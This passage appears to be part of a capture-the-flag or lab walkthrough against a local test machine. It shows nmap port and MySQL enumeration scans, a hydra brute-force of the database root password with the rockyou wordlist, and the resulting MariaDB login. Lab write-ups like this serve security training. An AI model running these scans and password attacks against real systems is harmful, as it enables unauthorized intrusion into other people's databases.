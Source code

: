 An additional all ports scan showed us:

```bash
PORT     STATE SERVICE VERSION
1337/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
```

<br>

## SQL Digging

I run another nmap against the database port using scripts and find some usernames:

`nmap -sV -p 3306 --script mysql-audit,mysql-databases,mysql-dump-hashes,mysql-empty-password,mysql-enum,mysql-info,mysql-query,mysql-users,mysql-variables,mysql-vuln-cve2012-2122 192.168.57.118`

```bash
| mysql-enum: 
|   Valid usernames: 
|     root:<empty> - Valid credentials
|     netadmin:<empty> - Valid credentials
|     guest:<empty> - Valid credentials
|     user:<empty> - Valid credentials
|     web:<empty> - Valid credentials
|     sysadmin:<empty> - Valid credentials
|     administrator:<empty> - Valid credentials
|     webadmin:<empty> - Valid credentials
|     admin:<empty> - Valid credentials
|     test:<empty> - Valid credentials
```

I try and login with these but it doesn't work on any of them.

I give **hydra** a try and am able to brute force the password for **root**:

`hydra -l root -P rockyou.txt 192.168.57.118 mysql`

```bash
[DATA] attacking mysql://192.168.57.118:3306/
[STATUS] 1633.00 tries/min, 4899 tries in 00:03h, 14339500 to do in 146:22h, 4 active
[3306][mysql] host: 192.168.57.118   login: root   password: <REDACTED>
1 of 1 target successfully completed, 1 valid password found
```

Logging into the database:

`mysql -h 192.168.57.118 -u root -p`

```bash
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 28097
Server version: 10.3.23-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]>
```
